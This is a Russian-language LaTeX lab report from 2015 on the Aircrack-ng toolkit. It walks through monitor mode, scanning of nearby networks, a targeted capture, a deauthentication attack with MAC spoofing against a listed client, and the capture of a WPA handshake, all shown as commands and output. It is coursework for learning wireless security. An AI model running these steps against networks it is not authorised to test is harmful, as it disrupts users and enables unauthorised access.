\documentclass[11pt, a4paper]{article}		% general format


%%%% Charset
\usepackage[utf8]{inputenc}					% use utf8					
\usepackage[russian]{babel}					% use russian font


%%%% Math
\usepackage{amsmath}						% Amer­i­can Math­e­mat­i­cal So­ci­ety (AMS) math fa­cil­i­ties
\usepackage{amsfonts}						% fonts from the AMS
\usepackage{amssymb}						% additional math symbols


%%%% Graphics
\usepackage{graphicx}


\author{Дедков Сергей}
\title{Отчет по лабораторной работе №6 :\\ Набор инструментов для аудита беспроводных сетей AirCrack}
\date{2015}

%---------------------------------------------------------

\begin{document}
\maketitle
\tableofcontents
\newpage

%---------------------------------------------------------


\section{Цель работы}

Изучить основные возможности пакета AirCrack и принципы взлома WPA/WPA2 PSK и WEP.



%---------------------------------------------------------

\section{Ход работы}


%---------------------------------------------------------

\subsection{Изучить документацию по основным утилитам пакета – airmon-ng, airodump-ng, aireplay-ng, aircrack-ng.}

Aircrack-ng - набор программ, предназначенных для обнаружения беспроводных сетей, перехвата передаваемого через беспроводные сети трафика, аудита WEP и WPAWPA2-PSK ключей шифрования (проверка стойкости), в том числе пентеста (Penetration test) беспроводных сетей (подверженность атакам на оборудование и атакам на алгоритмы шифрования).

Программа работает с любыми беспроводными сетевыми адаптерами, драйвер которых поддерживает режим мониторинга (список можно найти на сайте программы). Программа работает в операционных системах Windows, UNIX, Linux и Mac OS X. 

Версия для UNIX-подобных операционных систем имеет значительно бьшую функциональность и поддерживает больше беспроводных адаптеров, чем Windows-версия. aircrack-ng был также портирован для платформ Zaurus и Maemo. Также программа была портирована для iPhone.

airmon-ng	Выставления различных карт в режим мониторинга.

aireplay-ng	Пакетный инжектор (Linux и Windows).

aircrack-ng	Взламывает ключи WEP и WPA (Перебор по словарю).



%---------------------------------------------------------

\subsection{Запустить режим мониторинга на беспроводном интерфейсе}

airmon-ng start wlan0

\begin{verbatim}
Found 3 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!
-e 
PID	Name
2221	NetworkManager
3392	wpa_supplicant
7009	dhclient


Interface	Chipset		Driver

wlan0		Unknown 	rtl8192cu - [phy0]
(monitor mode enabled on mon1)
mon0		Unknown 	rtl8192cu - [phy0]
\end{verbatim}

%---------------------------------------------------------

\subsection{Запустить утилиту airodump, изучить формат вывода этой утили-ты, форматы файлов, которые она может создавать}

Запуск утилиты airodump:

airodump-ng mon0

\begin{figure}[h!]
	\centering
	
\includegraphics[scale=0.80]{res/airomon}
	\caption{Запуск airomon-ng}
\end{figure}

При указании ключа --write, утилита создает набор файлов с заданным префиксом. Два из которых связаны с информацией о доступных сетях и представлены в двух форматах: csv и xml. Еще два фала содержать информацию о перехваченных пакетах. Файл типа .cap содержит перехваченные пакеты, в то время как csv содержит лишь сокращенную информацию. Стоит отметить, что csv - это формат хранения простой таблицы.

cap - можно открыть в дальнейшем через wireshark, в нем отображаются все пакеты.

\begin{figure}[h!]
	\centering
	
\includegraphics[scale=0.80]{res/cap}
	\caption{Запуск airomon-ng}
\end{figure}



%---------------------------------------------------------

\subsection{Запустить режим мониторинга на беспроводном интерфейсе}

airodum-ng mon0

\begin{verbatim}
CH  3 ][ Elapsed: 8 s ][ 2015-06-05 04:10                                         

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

90:C1:15:B3:62:20  -46       40        0    0   6  54e  WPA2 CCMP   PSK  Xperia S_cb96               
BC:85:56:66:40:8A  -49       23        0    0  11  54e. WPA2 CCMP   PSK  nastroisam.ru               
00:1F:C6:2A:04:40  -57       17        1    0  11  54   WPA  TKIP   PSK  303                         
B8:A3:86:5B:CB:8C  -67       37        1    0   6  54e  WPA2 CCMP   PSK  <length:  0>                
00:21:91:0A:1C:BD  -71       10        2    0   1  54 . WPA2 CCMP   PSK  digitek labs                
00:1F:C6:42:3F:C1  -77       25        1    0   6  54   WPA2 CCMP   PSK  Lab209                      
40:01:C6:CE:C7:C0  -69       33       28    0   8  54 . WPA2 TKIP   PSK  KSPT                        
00:1E:58:B8:AA:E7  -97        2        0    0   4  54 . WPA2 CCMP   PSK  eda-lab                     

BSSID              STATION            PWR   Rate    Lost    Frames  Probe                            

(not associated)   00:C2:C6:1F:A7:61  -97    0 - 1      0        2  eda-lab                           
(not associated)   74:2F:68:D8:76:12  -47    0 - 1     30        8  KSPT                              
(not associated)   88:9F:FA:0E:A8:8D  -49    0 - 1     12       12                                    
(not associated)   78:E4:00:C7:72:14  -61    0 - 1     16        5  Lab209                            
(not associated)   F4:09:D8:0C:7E:8F  -73    0 - 1     25        4                                    
(not associated)   A4:17:31:7F:B2:3D  -43    0 - 1      6        7          
\end{verbatim}



%---------------------------------------------------------

\subsection{Запустить сбор трафика для получения аутентификационных сообщений}

airodump-ng mon0 -w new1 --bssid 40:01:C6:CE:C7:C0 

\begin{verbatim}
CH 13 ][ Elapsed: 56 s ][ 2015-06-05 04:34                                    

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

40:01:C6:CE:C7:C0  -77      108      229    5   8  54 . WPA2 TKIP   PSK  KSPT 

BSSID              STATION            PWR   Rate    Lost    Frames  Probe     
\end{verbatim}


%---------------------------------------------------------

\subsection{Произвести деаутентификацию одного из клиентов, до тех пор, пока не удастся собрать необходимых для взлома аутенти-фикационных сообщений}

\begin{verbatim}
aireplay-ng --ignore-negative-one --deauth 150 -a 40:01:C6:CE:C7:C0 -h A4:17:31:7F:B2:3D mon0
The interface MAC (C4:6E:1F:25:4E:9C) doesn't match the specified MAC (-h).
ifconfig mon0 hw ether A4:17:31:7F:B2:3D
04:49:25  Waiting for beacon frame (BSSID: 40:01:C6:CE:C7:C0) on channel -1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
04:49:25  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
04:49:26  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
04:49:26  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
04:49:27  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
\end{verbatim}



%---------------------------------------------------------

\subsection{}


В результате перехватываем пакет handshake:

\begin{verbatim}
airodump-ng mon0 --bssid 1C:7E:E5:39:26:F8 -c 6 
--write dump --ignore-negative-one
CH  6 ][ Elapsed: 1 min ][ 2015-06-03 21:30 ][ WPA handshake: 1C:7E:E5:39:26:F

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH E

1C:7E:E5:39:26:F8  -47 100      880      791    4   4  54e. WPA2 CCMP   PSK  11

BSSID              STATION            PWR   Rate    Lost  Packets  Probes     

1C:7E:E5:39:26:F8  74:E5:43:65:15:F5  -32    0e- 1      0      645  18   
\end{verbatim}



\end{document}